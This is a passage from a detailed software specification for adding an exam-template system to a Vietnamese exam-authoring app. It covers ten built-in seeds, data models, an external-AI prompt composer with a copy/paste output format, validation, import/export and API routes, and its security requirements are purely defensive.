  Secret Gist IS NOT encryption; large binary assets do not belong there.
- Existing LLM providers OpenAI/Anthropic/Gemini/local GGUF; API flow and
  retry-on-parse-failure, plus manual external-AI prompt flow. The NEW
  module's primary path is manual Copy/Paste; preserve existing auto-LLM.
- Existing exports: PDF print and Word; Android exports PDF/DOCX.
- Tests: Jest/Supertest, in-memory EXAM_DB_PATH, adversarial tests,
  browser-side parser tests, Gist sync E2E, Android math parity tests.
- Developer conventions: SQL parameterized, write transactions guarded
  by withLock, consistent JSON {success,...}, API keys masked, code
  comments in Vietnamese without diacritics, UI/docs in Vietnamese.
  Preserve existing APIs and style conventions.

FEATURE BOUNDARY — INCLUDED / EXCLUDED
-------------------------------------
IN: template catalog, editable templates, 10 built-in seeds, appearance,
headers/footers, stable slots, sections, score, response-space controls,
asset library, backgrounds, Word/PDF import modes, prompt engine, external
AI text intake and safe mapping, partial regenerations, preview/pagination,
PDF/DOCX exports, archiving, bounded sync, Android view/export parity,
regression coverage and documentation.

OUT: online exams/student submissions/auto-grading service/account system;
a full Canva-like WYSIWYG canvas; Canva API/in-app integration; AI image
generation; ANY OCR implementation or dependency in this iteration;
full semantic conversion of arbitrary highly-designed PDFs; promise of
browser/Word/Android identical pixels; rewriting the whole app in React;
a new auth/payment/cloud infrastructure without demonstrated necessity.
Canva-created PNG/PDF may be uploaded as ordinary user assets.

SYSTEM DESIGN — BOUNDED MODULES, NOT A MONOLITH REWRITE
-------------------------------------------------------
Create minimal new modules using the project's existing JS/CommonJS/ESM
conventions. Suggested boundaries (names are guidance; adapt to repo):

CORE / PURE DOMAIN (no DOM, DB, LLM, filesystem)
  templateCatalog / builtInTemplates
  templateSchema + templateValidator + templateMigrations
  templateInstance + slotAssignments
  templateScoring + scoreCheck
  templatePromptComposer + aiVariantRules
  templateTextAdapter + templateResponseValidator + slotMapper
  layoutPaginationModel (pure layout policy, not a new graphics engine)
  assetManifest + assetReferenceResolver

ADAPTERS
  SQLite template repository, template HTTP routes, upload asset routes,
  imported document adapter, browser editor/preview/print and docx exporter,
  Android DTO/render/export and sync manifest integration.

Design rules:
- Separate CONTENT from PRESENTATION from ASSETS from PROMPT CONFIG.
- Keep the current Exam.blocks shape as the canonical question content.
- Add OPTIONAL template metadata rather than rename/break legacy keys.
- Establish stable immutable IDs for built-in templates and stable ID for
  every section and slot. IDs survive reorder, renaming, appearance changes.
- Do not store computed rendered HTML as the only source of truth.
- Do not mix prompt versions with generated data or upload binary into
  SQLite JSON payloads as Base64. Store references + verifiable assets.
- Persist template snapshot/revision alongside created exam instances:
  editing/deleting source templates must not unexpectedly restyle historical
  exams; old exams still need to render when template is missing.
- Preserve pre-existing autosave, quiz shuffle, student/teacher preview,
  share links, cross-platform sync; treat these as regression blockers.
- Distinguish template definition, reusable background asset, a live exam
  instance, and an AI generation response. These are different entities.
- Avoid circular references and duplicate definitions across FE/BE/Kotlin.

REFERENCE DATA MODEL — ADAPT WHILE PRESERVING BACKWARD COMPATIBILITY
-------------------------------------------------------------------
Below is a conceptual JSON design, NOT an assertion of existing code. Use
schema validation (or existing compatible conventions), version each data
contract, persist consistently. The exact field names may be refined and
must be documented with test fixtures.

TemplateDefinition:
{
  "schema_version": 1,
  "template_id": "builtin.t03.midterm",
  "template_version": 1,
  "display_name": "Đề giữa học kỳ",
  "origin": "builtin | user",
  "is_builtin": true,
  "category": "exam-period",
  "description": "...",
  "subject_hint": null,
  "tags": ["exam", "midterm"],
  "defaults": {
    "subject": "", "grade": "", "duration_minutes": 45,
    "total_points": "10.00", "school_header": "",
    "topic": "", "school_year": "", "semester": ""
  },
  "appearance": {
    "paper": "A4", "orientation": "portrait",
    "margins_mm": {"top": 18, "bottom": 18, "left": 18, "right": 18},
    "font_family": "safe-font-fallback", "body_font_pt": 12,
    "line_spacing": 1.25, "columns": 1,
    "header": {"enabled": true, "fields": ["school", "exam_title"]},
    "footer": {"enabled": true, "fields": ["page_number"]},
    "background": {
      "asset_id": null, "opacity": 0.12,
      "fit": "contain | cover", "apply_to": "all | first | middle | last"
    }
  },
  "pagination": {"mode": "auto | max_pages", "max_pages": null},
  "sections": [
    {
      "section_id": "builtin.t03.s01",
      "title": "Phần I. Trắc nghiệm",
      "kind": "MULTIPLE_CHOICE",
      "declared_points": "3.00",
      "layout": {"columns": 1, "keep_heading_with_next": true},
      "slots": [
        {
          "slot_id": "builtin.t03.s01.q001",
          "position": 0,
          "question_type": "MCQ",
          "difficulty_level": "NB",
          "points": "0.25",
          "required": true,
          "answer_space": {"kind": "none", "lines": 0},
          "content": null,
          "assets": []
        }
      ]
    }
  ],
  "prompt_settings": {
    "ruleset_version": "current",
    "extra_instructions": "",
    "user_preset_id": null
  }
}

NOTE: Strings such as "10.00" illustrate decimal-safe point storage.
Implement decimal arithmetic or scaled integer units instead of adding
binary floats and claiming exact sums. Allowed score precision must be
configurable/validated. Keep types consistent in runtime/serialization.

Exam template binding/instance, optional and backward-compatible:
{
  "template_binding": {
    "schema_version": 1,
    "template_id": "builtin.t03.midterm",
    "template_version": 1,
    "template_snapshot": {"...": "render-critical layout and slots"},
    "slot_content_bindings": [
      {"slot_id": "builtin.t03.s01.q001",
       "question_id": "stable-exam-question-id"}
    ],
    "asset_manifest": [
      {"asset_id": "sha256:...", "type": "background",
       "mime": "image/png", "sha256": "...", "bytes": 12345,
       "local_availability": "available | missing"}
    ],
    "generation_audit": {
      "prompt_group": "full | section | repair",
      "provider_variant": "ChatGPT | Claude | Gemini | DeepSeek | Grok",
      "generated_at": "ISO-8601"
    }
  }
}

The actual mapping must preserve existing exam.blocks as-is for clients
unaware of templates. Do not assume adding arbitrary fields to relational
EXAM saves will persist: inspect schema writers/readers. For shared exam
links decide explicit additive JSON storage or a companion table, write
real migrations and tests. Unknown old fields should be tolerated or
handled carefully, never silently dropped when round-tripping a new exam.

Use a formal ownership table:
- template definition/revisions -> template repository
- exam question content -> existing exam model/archive
- current template application -> template_binding/snapshot
- uploaded binaries -> asset store and manifest
- prompt shared rules -> central prompt rules source
- AI-specific variations -> central variant registry
- temporary imported raw text/parse errors -> ephemeral workspace/state
- sync metadata -> sync manifest, never unlimited binary in Gist.

PERSISTENCE & REPOSITORY DESIGN
-------------------------------
1. SQLite (additive migrations only): e.g. TEMPLATE, TEMPLATE_VERSION,
   TEMPLATE_ASSET, PROMPT_PRESET, and optional EXAM_TEMPLATE_BINDING.
   Inspect existing schema initialization/migrations before deciding.
   All writes parameterized, transactional, withLock where required.
2. Built-ins are code/manifest-defined with stable IDs; do not store
   multiple duplicated built-in rows after repeated launches. User edits
   should create an owned clone/version, never mutate immutable seed.
3. CRUD: list/filter/search/open, create from blank/clone, duplicate,
   edit metadata/sections/slots, reorder, preview, set default background,
   archive/delete with dependency protection, export/import structured
   template bundle. Gracefully prevent broken references.
4. Version templates when changed. Instance snapshots ensure old exams
   retain their printable layout after seed upgrades or user edits.
5. Save assets outside SQLite as files addressed by immutable IDs/hash;
   store MIME, dimensions, byte size, origin, checksum, thumbnail path,
   normalized preview path, original path, last-access/created info.
   Save untrusted uploads into server-managed paths with randomized names.
6. Deleting an asset cannot break existing exams silently: either refuse
   while referenced, mark as pending deletion, or retain required snapshots
   until no references exist; test deletion/missing asset scenarios.
7. Gist sync integration: serialize compact template metadata and optional
   exam template snapshot in backward-compatible library envelope. Merge
   templates deterministically using stable ID and updated_at/revision;
   do not alter existing exam merge/tombstone semantics. Address conflicts
   on template level and preserve data, ideally keep conflict copy.
8. Binary backgrounds with large size must not be embedded in Gist JSON.
   Introduce explicit small-asset bundling policy if safe, else keep as
   unavailable-with-warning and preserve manifest. Provide local
   import/export bundle to move assets between devices offline. Consider
   limitations of GitHub Gist content/file size even for small assets.
9. Ensure Gist push/pull without templates continues to work on older app
   versions. Version library envelope and safely ignore unsupported new
   fields. Test old Android clients against new manifest shape.
10. Provide export/import template package (JSON + asset derivatives)
    with zip-slip/path traversal defenses if using ZIP; check duplicate
    names, hash mismatches and migration versions. Never trust user-supplied
    relative paths and never write outside controlled storage root.
11. Autosave in existing archive persists template-binding + current
    content safely and maintains debouncing; restoring history recovers
    both content and appearance as available. No re-import data loss.

10 BUILT-IN TEMPLATE SEEDS — MUST SHIP ALL TEN
----------------------------------------------
The names are frozen. The user selected FIXED COUNTS/STRUCTURES for all
TEN built-in seeds, but did NOT specify a numerical count per template.
You MUST CHOOSE explicit sensible counts/section structures per seed,
record them in a manifest and fixture, and enforce immutable built-in
structure/counts. The user's copy/clone becomes editable (including points,
slots and ordering). The number chosen for each seed is an ENGINEERING
DEFAULT, not a claimed nationwide educational mandate.

T01 Đề kiểm tra 15 phút:
  compact A4 single-column; basic school/title/time header; short slots,
  default suitable for a few MCQ/short answers, low wasted whitespace.

T02 Đề kiểm tra 45 phút:
  standard A4 single-column; multiple sections, practical answer space;
  points and time clearly printed, 10-point editable default.

T03 Đề giữa học kỳ:
  formal header (school/year/semester, room/name optional), structured
  objective + written-response sections, footer and page numbering.

T04 Đề cuối học kỳ:
  formal longer paper; supports extra pages, separate answer key and
  marking guide; header/footer stable across multiple pages.

T05 Đề 100% trắc nghiệm:
  MCQ-focused slots, compact option layout; support existing TRUE_FALSE
  and FILL_BLANK if user reconfigures, but initial preset only MCQ.

T06 Đề 100% tự luận:
  ESSAY slots with variable answer-space types, lines, subparts, page
  breaks/keep-together and worked solutions (teacher-only by default).

T07 Đề kết hợp nhiều dạng câu:
  mixed MCQ, TRUE_FALSE, FILL_BLANK and ESSAY with per-type validation,
  sectional points and continuous question numbering.

T08 Đề Toán có nhiều vùng trình bày lời giải:
  math-safe KaTeX/JLaTeXMath; large variable lines; squared-paper option;
  separate regions for derivation and geometry/diagram work; no AI image.

T09 Đề hai cột, tiết kiệm giấy:
  two-column questions; configurable column gap, question non-splitting,
  reading order and option wrapping; optionally full-width headers and
  full-width essay regions. DOCX columns need dedicated handling; preview
  must correctly show reading sequence; fallback clearly when unsupported.

T10 Đề Ngoại ngữ có phần đọc hiểu:
  reading passage as shared SECTION stimulus, multiple linked question
  slots that refer to passage, then optional vocabulary/grammar/writing;
  passage should not be duplicated for every question during print/export.
  Native support for text stimulus is required; audio generation is NOT.

For each seed prepare:
- at least one valid usable structure with section IDs and slot IDs;
- fixed stock slot counts/structure, but configurable metadata and content;
- an editable USER CLONE to change points, counts, sections, response-space;
- clear card metadata/preview thumbnail (can be HTML/CSS-generated, no AI
  or image assets required);
- prompt for all THREE prompt groups for each of FIVE selected AI variants;
  generated dynamically, not 150 hand-authored inconsistent paragraphs;
- successful parse+mapping+export test fixture and a demo exam text fixture;
- empty-state slots and a realistic overflow case.

TEMPLATE EDITOR UX — SIMPLE AND EFFECTIVE
-----------------------------------------
User journey:
1. New “Template” entry integrated in existing Web navigation. A gallery
   shows precisely 10 built-in seeds plus “Mẫu của tôi”. Search/filter by
   type/subject, cards with 1–2 sentence summary and lightweight preview.
2. User chooses seed -> “Sử dụng mẫu” opens a new Exam instance (seed
   remains unchanged). “Tùy chỉnh và lưu thành mẫu” clones it.
3. Editor two functional areas on desktop: list/inspector on left,
   page-shaped A4 preview on right. Mobile web stacks them. Keep existing
   theme, typography and localization style; no wholesale redesign.
4. In inspector edit title, school header, class/grade, duration, topic,
   grade, total score, sections, slot type, difficulty, points,
   draft lines, answer-space style, page size, margins, columns,
   header/footer, background, opacity, auto/max pages.
5. For USER CLONES ONLY, add/remove/duplicate/reorder sections/slots with
   keyboard-friendly up/down controls plus optional accessible drag handles.
   For stock seed original, keep section/slot counts frozen; provide a
   visible 'Nhân bản để tùy chỉnh' action instead of silently mutating it.
   Preserve stable IDs on reorder; undo/redo destructive replacement.
6. Clicking preview regions should select and focus the corresponding
   inspector item (not require implementing arbitrary pixel dragging).
7. Placeholder slots visually distinct from real text; rendering final
   print must never accidentally show instructional placeholder strings.
8. Show real-time point summary: section score, sum of item scores,
   exam total, mismatch messages, question count, missing answers and
   unbound/duplicate slots. No confusing red warnings during initial
   creation unless a relevant action actually requires completeness.
9. Background manager: library browse, upload image, import PDF/DOCX;
   preview fitting/cropping/opacity; choose asset; optionally per-page
   cover; explicit button to detach/reset. Avoid rendering heavy PDFs on
   every keystroke: cache normalized preview and reference metadata.
10. Below EACH template editor show one compact “Prompt cho AI” section:
    tabs P1 Full Exam / P2 Selected Part / P3 Review & Regenerate;
    AI selector ChatGPT, Claude, Gemini, DeepSeek, Grok;
    visible prompt preview; Copy Prompt, Copy Example (optional but
    consistent with existing UI), concise input parameters and parsed
    output instructions. User changes to template auto-update preview.
    The prompt display should not be duplicated in ten static HTML cards.
11. Expose “Dán kết quả AI” close to prompt panel: paste/validate,
    show parsed and mapped preview, errors and suggested repair prompt,
    Apply/Cancel. For partial generation, display changed slot diff.
12. Save template, duplicate, delete (with confirmation), export/import
    template, and create exam from selected template.
13. Create a path for existing exam -> “Áp dụng template” that does not
    discard current questions; warn if slots/types/score mismatch and ask
    mapping confirmation.
14. Interactive preview supports student, teacher, answer-key display,
    page breaks, background and (when available) multiple generated codes.
15. Loading, missing file, incompatible import, invalid schema, failed
    copy API, parse mismatch and import fallback must be explained in
    Vietnamese. Do not silently fail or fake successful actions.
16. Accessibility: keyboard alternative for reordering, labeled controls,
    focus management, visible errors, responsive layout, contrast-friendly
    theme, not color-only status. Avoid regressions of existing print CSS.

POINTS, SUBQUESTIONS & ANSWER SPACE
----------------------------------
- Score is owned by the slot/template, not by untrusted AI-generated text.
- Prompt explicitly tells AI the expected point value; AI may echo it in
  versioned output for verification. AI cannot silently override it.
- Compute section totals from item points. Show difference from declared
  section total and exam total with exact decimal arithmetic.
- User can choose manual or distribute points. Distribution algorithm
  documents remainder strategy and warns when increments cannot divide
  exactly. Never invent missing points during import without user approval.
- Optional subquestions with explicit points must sum to parent question's
  points; allow a structured marking rubric in explanation metadata but do
  not break old string explanation rendering.
- Student export hides correct answers, explanations, grading rubric and
  privileged metadata. Teacher export shows chosen answers/explanations;
  answer-only export includes concise keys/rubric and references question
  numbers. These are real separate export paths/modes, not just hidden CSS
  on a page that still leaks through an API.
- Draft lines: 0..maximum supported per engine, with ability to configure
  per slot and use multiple response kinds (ruled lines, blank rectangle,
  grid, table, drawing area); explicit per-target validation and fallback.
- Answer-space min/max heights and keep-together constraints coordinate
  with pagination; if a question cannot fit, move to next page or report
  overflow, not clip text.
- In teacher mode, use an explicit setting whether model answer shares
  draft space or appears after questions/in separate marking guide; avoid
  huge redundant draft space when printing teacher solutions.

DYNAMIC EXTERNAL-AI PROMPT ENGINE — CENTRALIZED, VERSIONED, TESTED
------------------------------------------------------------------
This is the central product differentiator. It must be implemented as a
DATA-DRIVEN prompt composer that uses current template state, not a static
prompt pasted under each built-in card.

Architecture:
1. Common source: the EXISTING Gemini_Prompt_Unified.txt remains the
   authoritative legacy question-grammar and math convention. Avoid
   copying its entire rules into five divergent files. Preserve its
   generation script/toolchain and the legacy user-facing prompt area.
2. New template prompt definitions/rules should live under ONE organized
   directory/module (e.g. prompt/templates/ with manifest, shared rules,
   three prompt-group definitions and AI variant adapters). Decide exact
   path after inspecting actual repo. Do not scatter hardcoded prompts
   through script.js, HTML, routes and seed definitions.
3. Generator inputs:
   {templateSnapshot, examMetadata, selectedSlots, promptGroup,
    aiVariant, topic, referenceSections, teacherExtraInstructions,
    includeAnswers:true, includeFullExplanations:true,
    rulesetVersion, language:"vi"}.
4. Derive requirements from current snapshot: title, subject, grade,
   expected numbered sections, exact slots with stable IDs, types,
   points, difficulty, option count, response lines, text-stimulus links,
   scope, constraints and preservation of unselected slots.
5. The same prompt composer serves ALL ten seeds, user-created templates,
   any edit, and all three prompt groups. Variants add modest model-specific
   reliability instructions only (not incompatible parsers or new schemas).
6. Five mandatory target profiles:
   ChatGPT: suppress markdown wrappers and prose; strict canonical output.
   Claude: avoid explanatory preface, explicit delimiters, preserve IDs.
   Gemini: strict line-based fields and math; long context awareness.
   DeepSeek: disallow visible <think> or chain-of-thought in output;
             accept only final normalized answer data.
   Grok: require canonical block delimiters and complete answer/rationale.
   Do not make unverified claims about a given model's actual behavior;
   these are robustness reminders, not guarantees.
7. Keep current six-choice legacy prompt UI operating independently;
   allow Gemini Pro alias in legacy and optionally as an internal
   variant of new Gemini. Do not remove older prompts or source files.
8. UI includes effective ruleset/version so a pasted AI response can be
   diagnosed against the exact template snapshot that generated it.
9. Support Copy Prompt, readable preview, optional Copy Example for each
   target, regeneration of prompt after any config change and clipboard
   fallback. No stale cached prompt after modifying slot count/score.
10. Optionally store versioned user presets for extra instructions; do not
    let free-form user additions negate safety/schema constraints silently.

THREE PROMPT GROUPS — REQUIRED

P1 FULL_EXAM:
  Generate text for ALL required slots. Include exactly the expected
  sections and number of items, all answers, worked explanations and
  rubric/points where appropriate. Preserve section/slot identifiers.

P2 SELECTED_SLOTS:
  Generate text ONLY for identified empty/selected sections or slots;
  do not repeat, rename, reorder or modify other slots. If a reading
  passage is shared, include/reference it once, not duplicate it.

P3 REVIEW_REPAIR:
  Review supplied selected question content for type, subject, difficulty,
  logical correctness, answer-explanation consistency, points and formatting.
  Return a corrected version for selected slots only; do not needlessly
  rewrite valid neighboring content. Distinguish a syntax failure from a
  substantive academic error; a parser cannot prove mathematical truth.
  Accept explicitly chosen action: validate-only, rewrite-one, increase/
  decrease difficulty, improve solution, change style without changing
  answer. Always require user confirmation before applying a rewrite.

CANONICAL OUTPUT FORMAT — VERSION 1, MANUAL COPY/PASTE FRIENDLY
--------------------------------------------------------------
Do NOT arbitrarily replace the legacy question grammar. Introduce a small
VERSIONED ENVELOPE/METADATA adapter that preserves ability to feed cleaned
questions to existing TextPromptParser. Choose the final grammar after
examining its actual tokenization rules; ensure robust escaping, Unicode,
multiline explanations, missing-newline recovery, duplicate fields and
model-added markdown wrappers. A concrete proposal follows.

Example only (normalizer/adapter must parse it; tweak only if required):

=PHAN_1_TRAC_NGHIEM=

[CAU_HOI]
Ma_Khung: builtin.t07.s01.q001
Ma_Phan: builtin.t07.s01
Diem: 0.25
Loai: TN
Muc_Do: Nhan_Biet
De_Bai: Tính $2 + 3$.
A. 4
B. 5
C. 6
D. 7
Dap_An: B
Loi_Giai: Vì $2 + 3 = 5$, chọn B.
So_Dong_Nhap: 0

=PHAN_2_TU_LUAN=

[CAU_HOI]
Ma_Khung: builtin.t07.s02.q001
Ma_Phan: builtin.t07.s02
Diem: 2.00
Loai: TU_LUAN
Muc_Do: Van_Dung
De_Bai: Giải phương trình $x^2 - 5x + 6 = 0$.
Dap_An: $x = 2$ hoặc $x = 3$.
Loi_Giai: Phân tích $(x-2)(x-3)=0$, suy ra $x=2$ hoặc $x=3$.
So_Dong_Nhap: 8

The THREE metadata fields Ma_Khung, Ma_Phan and Diem are NOT listed in
legacy DOCUMENTED grammar. Inspect the real parser; if unsupported, the
template adapter must parse/strip them BEFORE delegating to legacy parser.
Do not naively add unknown fields after Loi_Giai; the current parser may
append unknown lines to the previous field. For legacy compatibility,
place metadata at start of each [CAU_HOI] and strip in template adapter.

The adapter workflow:
  raw text -> safe size/encoding normalization -> version detection ->
  strip optional harmless markdown fences if present -> recognize sections,
  [CAU_HOI] and template metadata -> build cleaned legacy prompt text ->
  TextPromptParser.parse(cleaned) -> align parsed questions + metadata ->
  validate against template snapshot -> draft proposed slot assignments ->
  display report/diff -> user confirms -> atomically apply to exam state.

Use a registry/protocol version and test fixtures. Future format migrations
are allowed but v1 must remain parsable. If an AI omits IDs, do not blindly
map a set of equally plausible questions: auto suggest only deterministic
matches (unique type, section, expected count, order) and require user
approval when ambiguous. If type/score differs, do not silently accept.
The system must not trust the echoed points as the source of truth.

VALIDATION LEVELS (separate them; don't claim parser proves content true)
  SYNTAX: delimiters, recognized fields, IDs, parse errors, dangerous
          payloads, normalization, duplicate fields, empty answers.
  STRUCTURE: exact targeted IDs, no duplicates, right section, number of
             questions, type, difficulty, MCQ option validity, answer
             format, min/max answer lines, max lengths, no extra slots.
  SCORING: each expected slot points vs echoed points; per-section and
           exam sum; optional subpart/marking rubric consistency.
  SEMANTIC HEURISTICS: quick warnings for e.g. correct MCQ answer not
           present or no worked solution; DO NOT claim automatically
           fact-checkable math or scientific solutions without an actual
           verification engine; teacher remains authority.
  RENDER SAFETY: LaTeX rendering can fail; fallback text, warnings.
  COMMIT SAFETY: no mutation before user approves; idempotent re-import
           and atomic save after successful validation.

Each validation issue must have structured fields:
  {code, severity, section_id, slot_id, question_index, field,
   expected, actual, human_readable_message, suggested_fix}.
Messages must be understandable in Vietnamese; include “Phần X – Câu Y”
when possible. Errors are actionable; allow Copy Repair Prompt that
contains ONLY problematic slots/rules, not leaked secrets.

PROMPT COMPOSER — PSEUDOCODE CONTRACT
-----------------------------------
function buildTemplatePrompt({template, target, mode, metadata, context}) {
  const normalized = normalizeAndValidateTemplate(template);
  const slots = selectSlotsByMode(normalized, mode, target);
  const common = getCanonicalLegacyQuestionRules();
  const canonical = getTemplateOutputMetadataContractV1();
  const variant = getAiSpecificVariant(target);
  const spec = describeExactSectionsAndSlots(slots, normalized);
  const preservation = describeUnchangedSlots(mode, normalized);
  return joinConsistently([
    variant.preamble, common, canonical, examMetadata(metadata),
    spec, preservation, context, variant.postamble,
    "Output ONLY the required plain-text fields and sections."
  ]);
}

Required metamorphic properties:
- Changing total points/one slot changes the prompt for that slot.
- Changing number/type/order of slots changes prompt obligations.
- Changing only background does NOT ask AI to generate an image and does
  NOT destroy text content.
- Prompt generation is deterministic for the same inputs; output hash can
  be saved for audit without saving confidential reference documents.
- All five model variants yield a consistent parseable canonical structure.
- P2/P3 never include other slots as output targets by mistake.
- The generated sample responses pass through the template adapter and
  map to exactly the correct slots, independently of chosen AI variant.
- Existing legacy prompt generator is not rewritten or hand-edited.

CONTENT WORKFLOWS AND STATE SAFETY
----------------------------------
A. Full generation:
   choose template -> set metadata/score/topics -> Copy Full Prompt ->
   ask external AI -> paste response -> validate -> preview mappings ->
   confirm -> update exam -> preview/export/archive.
B. Partial generation:
   choose only empty slots or section -> Copy Selected Prompt -> paste ->
   resolve IDs -> diff -> confirm -> update selected slots only.
C. Regeneration:
   select existing question -> Copy Repair Prompt -> paste revised text ->
   diff highlights changed question/answer/explanation -> Apply/Cancel;
   history/Undo should preserve last version.
D. Manual entry:
   user types or pastes question text into a slot; validation and scores
   still apply; no external AI dependency.
E. Legacy entry:
   existing Paste Text/Form/File tab remains operational without a template;
   optionally choose/apply template later and map questions with review.
F. Switching template:
   preserve current exam data, offer conservative auto-map where exact
   compatibility exists, otherwise show unassigned question tray and
   allow manual slot selection; never delete questions due to count mismatch.
G. Exam code mixing:
   preserve existing examCodeGenerator, answer shuffling and numbering.
   Define whether template binding is reused per generated code, how
   correct_answer aligns after option shuffle, and whether score metadata
   follows the question or physical slot. Critical: no wrong answer keys.
   If mapping with many codes cannot be guaranteed, show a clear
   incompatibility and disable just that combination, not entire legacy
   shuffle feature.
H. Answer key:
   print consistent continuous question numbers (1..N) across sections,
   cross-check against teacher/student and all shuffled codes.

BACKGROUND / IMAGE / WORD / PDF IMPORT PIPELINE
-----------------------------------------------
Separate these user intents in both UI and backend:

MODE 1 — UPLOAD/CHOOSE BACKGROUND ASSET:
- Accept validated image uploads (PNG/JPG/JPEG/WebP and sanitized SVG only
  if safe). Check MIME via actual file signature when possible, not just
  extension. Strip executable SVG payloads or rasterize via trusted
  controlled pipeline; don't serve untrusted active SVG unsanitized.
- Reject extremely large dimensions/decompression bombs and malicious
  payloads; stream uploads to bounded temporary storage, scan metadata,
  generate a safe thumbnail/preview (server-side or isolated browser logic)
  and content-hash identity; no arbitrary user-provided final filename.
- User can select existing library asset or newly uploaded asset; change
  opacity, fit/crop, orientation, page role. Preserve printer readable
  margins and contrast. CSS background preview not automatically proof
  that browser print or Word includes image; export tests are mandatory.
- Current GET /api/backgrounds and /backgrounds static area must keep
  working. Wrap legacy read-only images into unified listing when possible
  rather than deleting public paths or requiring migration immediately.

MODE 2 — IMPORT DOCX / PDF AS BACKGROUND:
- DOCX: inspect its page/embedded-image feasibility; convert to stable
  page image/background if a reliable local conversion tool exists, else
  give user a clear fallback. Do NOT assume mammoth (text extraction)
  preserves Word page geometry and decorative background.
- PDF: parse pages and rasterize a user-selected page or repeating pages
  to an image background with controlled resolution (if a compatible
  package/runtime is present or can be installed safely); store preview
  and print-ready derivative. A PDF is not itself a CSS image. Deal with
  multiple pages, page size mismatch and blank page imports explicitly.
- If rendering/conversion is unavailable, offer to import content text or
  manual background image upload, and explain limitations. Do not claim
  success while silently dropping visual elements.

MODE 3 — IMPORT DOCX / PDF INTO EDITABLE STRUCTURE:
- Show an option clearly different from background mode.
- DOCX: use paragraph/table/heading structure from available parser
  (mammoth for text, additional structural OOXML extraction as needed).
  Regex/rule-based heuristics may detect headings, sections, “Câu 1”,
  point text and candidate answer spaces. Preserve provenance and
  confidence per detected element; ambiguous detection goes to review.
- Native PDF text: extract text with locations/layout cues where support
  exists, perform geometry heuristics for columns/heads/footers. Preserve
  source and warn that recognition is best effort.
- PDF scans: explicitly label text not extractable when OCR unavailable.
  OCR is a FUTURE-ONLY possibility, expressly NOT part of this release;
  do NOT claim deterministic rules can read a rasterized scan.
- Provide visual review showing imported preview on one side and
  candidate sections/slots on the other, with clear confirm/reject and
  manual mark/edit. Manual region marking should be minimal (simple
  bounding rectangles/markers) and only within document-import review;
  not a generic freehand graphic-editor feature.
- Use a confidence threshold to decide automatic suggestions vs manual;
  no guessed points/question IDs should become authoritative until
  confirmed. Keep original imported file or controlled derivative to
  compare; avoid retaining arbitrary uploads forever without user choice.
- Version import manifest and track page number / position / confidence
  for reversible/correctable mapping.

ILLUSTRATIONS / TABLES:
- AI never invents image assets. User may attach illustration(s) to
  a slot from uploaded library, with caption, alt/description, width,
  wrap settings and print-safe scaling. A text prompt may use an explicit
  deterministic illustration placeholder, e.g. [HINH_CAN_THEM: hinh_1],
  but no actual image-generation request. Unresolved required placeholder
  must show warning before final export.
- Basic static tables may be supported as structured blocks; never allow
  arbitrary HTML from model output to enter trusted preview. Avoid
  positioning complexity; use predictable layout and pagination.

EXPORT, PRINT & PAGINATION — FUNCTIONAL REQUIREMENTS
---------------------------------------------------
EXPORT MODES:
  student question paper (NO hidden model answer data in public output),
  teacher with answer/solution,
  separate answer-key/marking guide,
  combined paper + answers at end,
  chosen exam code/all codes as compatible with existing feature.

PAPER AND TYPOGRAPHY:
  A4/A5; portrait/landscape; margin in mm; readable text/font fallback;
  page numbering, optional school header, footer, school logo upload;
  one/two columns; no broken equations/answer lines; section labels and
  points visible; background image with selected opacity and mode.

PAGINATION POLICY:
  AUTO: text/slots flow to as many pages as required; no hidden content.
  MAX_PAGES: show overflow diagnostics (page, section, slot, amount if
  measurable), do not silently truncate; offer a route to shorten text,
  reduce answer lines or switch to AUTO; explicit user confirmation for
  any fallback. Keep heading with first question where possible; avoid
  slicing a mathematical display or option list across page boundary.

WEB:
  inspect existing print CSS, @page support and window.print behavior;
  adjust layout incrementally. Avoid CSS column auto-flow if it shuffles
  logical reading order, keyboard order or answer key mapping. For two
  columns, ensure predictable print and Word export and support full-width
  section breaks. Browser background printing can depend on 'Background
  graphics' checkbox; provide this instruction in UI when necessary.
  Test real browser print/PDF visually, not only Jest and DOM assertions.

DOCX:
  Use installed docx package and create real editable Word paragraphs,
  tables, sections, headers/footers, background/watermark where supported;
  if a PDF-imported background cannot be reproduced in Word faithfully,
  explicitly warn and render best-effort stable derivative rather than
  claim perfect import. Ensure paper size, page breaks, columns, margins,
  line spacing and response lines work; preserve Vietnamese glyphs.
  Word renderer may differ from browser; define tested tolerance.

ANDROID:
  Use native PdfDocument/OOXML writer or appropriate limited adapter;
  verify pages/margins/font/math. If assets missing, show warning in
  Preview and export safe fallback with readable question content.
  Never fail to export the entire question set solely due to a missing
  decorative background. If a template feature is unsupported on Android,
  choose clear degraded layout and a visible parity warning, not corrupt
  output or silently omit answers/questions. Implement deterministic
  asset-cache resolution before offline export.

SHARING/SECURITY:
  Student link must never expose privileged answer/solution metadata
  just because CSS hides a teacher view. Inspect /api/exams/shared and
  ?data= encoded links for leakage and either use safely redacted payload
  or show explicit legacy limitation and implement compatible hardening.
  Background URLs must not reveal unsafe local file paths; don't use user
  filenames as raw filesystem paths. Protect against XSS in model text,
  malicious SVG, oversize uploads, path traversal, zip bombs, BOM/Unicode
  edge cases, SQL injection, prototype pollution, unsafe inline HTML.

BACKEND API CONTRACT — SUGGESTED, CONSISTENT WITH EXISTING ROUTES
----------------------------------------------------------------
Do not blindly implement this list: reconcile existing route names, auth
assumptions, REST response conventions and DB migrations first. New routes
should use one namespace /api/templates and an asset namespace with
explicit validation. Suggested public operations:

GET    /api/templates                  catalog builtins + user templates
GET    /api/templates/:id              one definition and revision metadata
POST   /api/templates                  create custom template
POST   /api/templates/:id/clone        clone into an editable custom template
PUT    /api/templates/:id              update with revision/If-Match
DELETE /api/templates/:id              delete custom (not built-in) safely
GET    /api/templates/:id/export       download template bundle
POST   /api/templates/import           import template bundle with preview
POST   /api/templates/validate         validate a proposed template snapshot
POST   /api/templates/prompts/preview  compose a dynamic prompt (no AI call)
POST   /api/templates/parse-response   parse + validate pasted AI text
POST   /api/templates/map-response     propose mapping/diff, no side effect
POST   /api/templates/apply-response   apply approved patch to exam/archive
GET    /api/template-assets            list available assets
POST   /api/template-assets            upload validated image/doc/PDF
GET    /api/template-assets/:id        metadata, no unsafe path disclosure
GET    /api/template-assets/:id/preview safe derivative/thumbnail
DELETE /api/template-assets/:id        ref-aware deletion
POST   /api/templates/import-analyze   analyze DOCX/PDF with safe fallbacks
POST   /api/templates/import-confirm   confirm candidate regions/fields

Alternative: parse/map/apply could be pure browser modules and only asset/
CRUD calls go through backend. Choose the simplest deployment preserving
pure shared domain logic and client-side fast parse. No unnecessary server
